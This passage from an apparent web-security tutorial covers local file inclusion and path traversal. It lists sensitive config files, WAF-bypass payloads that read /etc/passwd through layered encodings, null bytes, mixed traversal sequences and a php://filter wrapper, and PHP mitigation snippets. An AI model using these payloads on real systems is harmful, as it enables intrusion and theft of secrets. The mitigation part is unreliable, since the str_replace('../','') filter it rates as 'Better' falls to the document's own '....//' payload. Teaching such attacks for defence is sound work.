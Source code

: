 ```

# Laravel
/.env

# Joomla
/configuration.php
```

## Chaining Techniques for WAF Bypass

### 1. Multiple Encoding + Traversal

```
%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### 2. Path Truncation + Null Byte

```
../../../../../../../../../etc/passwd.........................x%00
```

### 3. Combining Different Encoding Types

```
%25%32%65%25%32%65%25%32%66etc%25%32%66passwd
..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```

### 4. Mixed Traversal Sequences

```
....//....//....//etc/passwd
..../\../\../\../etc/passwd
../\../\../\../etc/passwd
```

### 5. Protocol Wrappers + Encoding

```
php://filter/convert.base64-encode/resource=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

## Preventing and Mitigating LFI/Path Traversal

### Input Validation & Sanitization

```php
// Bad - Vulnerable
include($_GET['file']);

// Better - Whitelist validation
$allowed_files = ['home', 'about', 'contact'];
if (in_array($_GET['file'], $allowed_files)) {
    include($_GET['file'] . '.php');
}

// Better - Remove traversal sequences
$file = str_replace('../', '', $_GET['file']);
```
